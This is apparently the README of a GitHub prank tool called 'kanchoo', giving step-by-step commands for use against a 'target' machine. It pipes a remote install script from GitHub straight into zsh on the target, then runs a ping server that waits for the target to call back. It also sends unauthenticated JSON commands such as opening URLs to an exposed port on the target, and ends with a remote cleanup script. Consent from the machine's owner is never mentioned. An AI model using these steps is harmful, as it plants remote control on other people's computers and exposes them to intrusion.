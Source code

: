 # kanchoo
カンチョー

## how to

#### 1. install in the target
```sh
ip=127.0.0.1 /bin/zsh <(curl -fsSL https://raw.githubusercontent.com/davidegaspar/kanchoo/wip/install)
```

#### 2. start ping server and wait for target to ping back
```sh
./ping.js
```

#### 3. once you have the target details run a story or a single action
```sh
./story <storyName>.json <ip>
```
```sh
curl -H "Content-Type: application/json" -X POST -d '{"consoleLog":"hello world!"}' http://${ip}:12121
curl -H "Content-Type: application/json" -X POST -d '{"openUrl":"example.com"}' http://${ip}:12121
```

#### 4. cleanup after you had some fun
```sh
/bin/zsh <(curl -fsSL https://raw.githubusercontent.com/davidegaspar/kanchoo/wip/cleanup)
```

## dependencies
- nodejs
- zsh
